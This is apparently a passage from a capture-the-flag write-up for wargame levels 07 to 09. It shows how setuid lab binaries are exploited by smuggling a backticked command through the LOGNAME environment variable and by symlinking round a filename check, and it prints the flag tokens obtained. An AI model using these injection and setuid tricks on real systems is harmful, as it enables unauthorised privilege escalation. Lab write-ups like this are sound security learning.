_Token: wiok45aaoguiboiki2tuin6ub_
- - - -

## Level 07 (another setuid exploit)
We’ve got another compiled executable `level07` in our home directory. By examining its library calls, we infer that the program gets the name of a separate script that it then executes from an environmental variable `$LOGNAME`. 

```sh
> ltrace ./level07
getenv("LOGNAME")                                = "level07"
system("/bin/echo level07 "level07...
``` 

Because a program inherits the environment from the user who is executing it, regardless of `setuid` bits, we can modify its behaviour to our advantage.

```sh
> export LOGNAME='`getflag`'
> ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

_Token: fiumuikeil55xe9cu4dood66h_
- - - -

## Level 08 (another setuid exploit)
We’ve got a file `token` in our home directory (presumable containing the token for the current level), but, unfortunately, no permission to read it. The program `level08`, which conveniently has its `setuid` bit set, is a simple reader, reprinting contents of any text file to stdout. 

To make out lives harder, `level08` checks that the file, passed as a parameter,  isn’t named `token`. However, we can still fool `level08` by creating a soft-link to `token`.

```sh
> chmod 755 .
> ln -s token soft_link
> ./level08 soft_link
quif5eloekouj29ke0vouxean
```

_Token: 25749xKZ8L7DkSCwJkT9dyv6f_
- - - -

## Level 09 (a non-trivial cipher)
There is a `token` file, containing an encrypted token, produced by `level09`. We start by feeding multiple strings to `level09` in order to reverse engineer its cipher algorithm. 

```sh
> ./level09 aaaaaaa
abcdefg
> ./level09 token
tpmhr
```
